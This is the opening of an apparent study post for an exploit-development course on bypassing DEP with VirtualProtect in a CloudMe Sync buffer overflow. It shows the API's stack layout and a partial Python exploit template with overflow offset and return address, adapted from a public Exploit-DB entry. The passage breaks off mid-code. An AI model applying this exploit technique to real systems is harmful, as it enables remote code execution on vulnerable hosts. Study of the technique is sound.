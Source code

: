 ```yaml
---
title: "Buffer Overflow - DEP Bypass - VirtualProtect"
categories: [Buffer Overflow, OSED]
tags: [Windows,OSED,Buffer]
mermaid: true
image: https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2012:01:26.png
---
```


In this section we will keep our studies in Buffer Overflow. Now using a different technique called Data Execution Prevention Bypass.

# CloudMeSync - VirtualProtect

Here we have the function of the VirtualProtect API, which we will use in this example right now.

```C
BOOL WINAPI VirtualProtect(          =>    A pointer to VirtualProtect()
  _In_   LPVOID lpAddress,           =>    Return Address (Redirect Execution to ESP)
  _In_   SIZE_T dwSize,              =>    dwSize up to you to chose as needed (0x1001)
  _In_   DWORD flNewProtect,         =>    flNewProtect (0x40)
  _Out_  PDWORD lpflOldProtect       =>    A writable pointer
);
```

And this is what we are going to put on the stack to be executed.

```
XXXXXXXX -> KERNEL32!VirtualProtectStub
YYYYYYYY -> Return Address (lpAddress)
YYYYYYYY -> lpAddress (return Address)
00001000 -> dwSize (Size of the Shellcode)
00000040 -> flNewProtect
WWWWWWWW -> lpflOldProtect (any writable address)
```

For our demonstration here we'll keep as our base the exploit 46250 from exploitdb. Check the [link](https://www.exploit-db.com/exploits/46250) here.

So, we'll use the this template from the exploitdb as our exploit.

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

def create_rop_chain():
        rop_gadgets = [ ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = b'\x41' * 1052
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 10
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```